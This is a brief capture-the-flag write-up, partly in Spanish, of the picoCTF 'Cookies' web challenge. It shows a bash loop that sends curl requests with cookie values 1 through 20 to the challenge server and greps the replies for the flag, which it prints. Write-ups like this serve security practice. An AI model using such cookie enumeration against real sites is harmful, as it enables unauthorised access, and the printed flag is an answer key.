 #### Description 

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

for i in {1..20}; do curl http://mercury.picoctf.net:21485/check -H 'Cookie: name=$i'; done


En la terminal de linux vemos todas las galletas y buscamos la que diga picoCTF
````
lesly@Lesly:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep -oE "picoCTF{.*?}"
            picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
```